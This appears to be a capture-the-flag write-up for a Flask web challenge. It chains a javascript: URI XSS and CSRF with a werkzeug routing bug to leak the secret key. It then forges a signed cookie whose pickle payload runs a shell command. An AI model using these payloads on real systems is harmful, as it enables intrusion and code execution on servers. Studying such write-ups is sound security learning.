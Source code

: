 
From jinja docs:
```
There is one class of XSS issues that Jinja’s escaping does not protect against. The a tag’s href attribute can contain a javascript: URI, which the browser will execute when clicked if not secured properly.

<a href="{{ value }}">click here</a>
<a href="javascript:alert('unsafe');">click here</a>
```

CSP also has 'unsafe-inline' as an option since the site itself uses it

* csrf a verified user into making a post
* verified user posts -> link gets resolved and preview gets cached by server 
* Doing //a/flaginfo bypasses checks on preview due to bug in werkzeug routing https://github.com/pallets/werkzeug/pull/1286
* flaginfo leaks secret key -> use secret key to sign and set cookie 
* werkzeug securecookies use pickle by default -> RCE

First payload:

`[link]javascript:fetch("http://127.0.0.1:5000/newpost",{"headers":{"content-type":"application/x-www-form-urlencoded"},"body":"submission-text%3D%5Blink%5Dhttp%3A%2F%2F127.0.0.1%3A5000%2F%2Fa%2Fflaginfo","method":"POST"})`


Should leak the secret key `superdupersecretflagonkey`.
 
Generate exploit cookie:

```
import subprocess
from werkzeug.contrib.securecookie import SecureCookie

class a(object):
    def __reduce__(self):
        return (subprocess.check_output, (['cat', 'flag.txt']))

SECRET_KEY = 'superdupersecretflagonkey'

print(SecureCookie({'name':a(), 'username':'meow_6bc9e8e1'}, SECRET_KEY).serialize())
```
